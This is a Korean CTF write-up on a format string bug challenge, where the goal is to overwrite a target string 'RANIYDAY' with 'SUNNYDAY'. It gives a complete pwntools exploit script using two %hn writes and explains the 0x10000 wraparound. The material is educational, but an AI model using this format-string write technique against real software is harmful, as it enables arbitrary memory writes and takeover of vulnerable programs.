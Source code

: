 이 문제는 초기에 "RANIYDAY"로 세팅되어 있는 target 문자 배열을 "SUNNYDAY"로 바꿀 수 있는지 묻는 문제이다.
원하는 횟수만큼 FSB를 트리거할 수 있는 상황이며, 맨 처음에 target 문자 배열을 가지고 있는 상태이다.

나는 뒤의 4바이트는 "YDAY"로 똑같다는 점에 착안하여, 처음 4바이트만 "SUNN"으로 바꾸면 되겠다는 생각으로, 다음과 같이 익스플로잇을 구성하였다.

```python
from pwn import *
p = process('./fsb')
p.recvuntil(b": ")
target = int(p.recvline(), 16)
log.success(f"target : {hex(target)}")

first = int.from_bytes(b'SU', byteorder='little')
second = int.from_bytes(b'NN', byteorder='little')
if first > second:
    second = 0x10000 - first + second

payload = b''
payload += '%{}c%10$hn'.format(first).encode()
payload += '%{}c%11$hn'.format(second).encode()
payload += b'A'*(0x20 - len(payload))
payload += p64(target)
payload += p64(target + 2)
p.sendline(payload)
p.sendline(b'stop')

p.interactive()
```
익스플로잇 코드를 설명하자면, 한 번에 4바이트 값("SUNN")을 출력하기에는 그 양이 많아서, 2바이트씩 끊어서 값을 덮어쓰고자 `%hn` 형식 지정자를 사용하였다.
또한, `first`와 `second` 변수를 두어, 각각 "SU"와 "NN"의 정수 값을 가지고 있도록 하였다.
이때 `first`(0x5553)가 `second`(0x4e4e)보다 큰 값을 가지고 있기 때문에, 먼저 출력을 수행할 경우 0x4e4e의 값은 다시는 덮을 수 없는 것이 아닌가 생각할 수 있다.
그러나, 이는 자료형의 크기로 해결할 수 있는 문제이다.

9~10번째 줄에서 `second`의 값을 `0x10000 - first + second`로 재설정하였다.
이로 인해, 두 번째 `%hn`이 실행될 때 총 작성된 문자의 개수는 `0x10000 + second`가 된다.
그러나, 우리가 사용하는 자료형의 크기는 2바이트, 즉, `0x14e4e`가 아니라 `0x4e4e`의 값이 `target + 2` 주소에 입력되게 된다.

이렇게 FSB 취약점을 익스플로잇하여, 원하는 주소에 원하는 값을 입력하는 방법을 알게 되었다.

FSB 취약점은 `printf` 함수 말고도 Format String을 사용하는 함수에선 모두 발생 가능한 취약점이니, 이에 유의하면서 포너블을 즐겨보자.

